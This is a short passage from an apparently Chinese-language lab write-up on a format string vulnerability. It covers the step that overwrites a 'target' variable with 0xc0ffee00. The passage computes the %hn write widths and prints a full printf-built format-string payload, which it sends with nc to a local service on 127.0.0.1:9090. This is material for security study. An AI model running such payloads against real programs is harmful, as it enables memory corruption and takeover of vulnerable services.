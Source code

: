 ![image-20220526103030079](README.assets/image-20220526103030079.png)

## （3）修改 target 变量成 0xc0ffee00

target变量的地址为0x0804a02c

计算：

0xc0ff=49407

0xee00=60928

前面的字符串长度为（4+4+4+38*（8+1））=354

49407-354=49053

60928-49407=11521

构造格式化字符串如下：

```bash
echo $(printf "\x2e\xa0\x04\x08@@@@\x2c\xa0\x04\x08")%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.8x_%.49053x%hn%.11521x%hn > msg

cat msg | nc 127.0.0.1 9090 
```
